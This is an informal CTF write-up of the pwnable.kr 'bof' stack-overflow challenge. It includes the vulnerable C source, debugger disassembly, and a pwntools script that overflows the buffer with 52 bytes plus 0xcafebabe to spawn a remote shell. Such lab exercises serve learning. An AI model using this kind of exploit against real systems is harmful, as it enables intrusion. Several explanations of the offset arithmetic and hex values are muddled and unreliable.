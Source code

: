 ```yaml
---
layout: post
published: true
title: Simple Stack overflow Challange 
tags:
 - bug hunting
 
comments: true

---
```


# Breakdown of program

I opened the challenge and found there two files bof and bof.c let’s breakdown the function :p so the program was:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);	// smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

in this we can see there are two functions “func” and “main” in this program we can see function name “func” takes a parimiter key and declared a variable overflowme having a buffer 32 then it takes input and compares with the key “0xcafebabe” if the key is correct it gives us pass else it wll say nah while in the next function main () it just calling “func” and gives HARthe value of key “ox0deadbeef”
that’s how program worked what we need is to overwrite the stack to get the flag
binary eploitation and analysis
let’s dissamble the “func” function to see the asssembly code i.e whats hapening with our code

```
gef➤ disass func
Dump of assembler code for function func:
0x5655562c <+0>: push ebp
0x5655562d <+1>: mov ebp,esp
0x5655562f <+3>: sub esp,0x48
0x56555632 <+6>: mov eax,gs:0x14
0x56555638 <+12>: mov DWORD PTR [ebp-0xc],eax
0x5655563b <+15>: xor eax,eax
0x5655563d <+17>: mov DWORD PTR [esp],0x5655578c
0x56555644 <+24>: call 0xf7e27460 <__GI__IO_puts>
0x56555649 <+29>: lea eax,[ebp-0x2c]
0x5655564c <+32>: mov DWORD PTR [esp],eax
0x5655564f <+35>: call 0xf7e26980 <_IO_gets>
0x56555654 <+40>: cmp DWORD PTR [ebp+0x8],0xcafebabe
0x5655565b <+47>: jne 0x5655566b <func+63>
0x5655565d <+49>: mov DWORD PTR [esp],0x5655579b
[ Legend: Modified register | Code | Heap | Stack | String ]
here we can see cmp which compares both strings and gave us output according to our strings lest’s set breakpoint at cmp with his address and run the our program with AAAAAAAAAAAAAAAAAA to buffer overflow
gef➤ break *0x56555654
Breakpoint 2 at 0x56555654
gef➤ c
Continuing.
overflow me :
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

let’s start to search 0x0deadbeef key in esp register we can see it by typing x/40xw in gef debugger we can see output like this:

here we can see our output AAAAAAAAAAA as “0x414141” and we can see the key 0xedeadbeef too now we find out the distance between our input and the key i.e deadbeef we all know hexadecimal is of 16 bytes and value is stored IN REGISTERS like:
AAAA = 4*4 = 16
so as a highlighted our AAAA is started and where the 0x0deadbeef occurs there are 13 hexa digits so according to basic math
Distance = 13*4= 52 bytes
so we need 52 character to exploit so acccording to little endia ( data in c stored in format of little endia) key will be ‘\xbe\xba\xfe\xca’” and have 52 chracters so final payload will be
**python -c “print ‘A’ * 52 + ‘\xbe\xba\xfe\xca’”**
i code (steal) little python script and run this payload
from pwn import *
conn = remote(“pwnable.kr”, 9000)
payload = ‘A’ * 52 + ‘\xbe\xba\xfe\xca’
conn.sendline(payload)
conn.interactive()
then i got flag after going to home directory and typed cat flag :) that;s all
i made a video too if uh got time then saw this too: https://youtu.be/0s10ul66vqQ
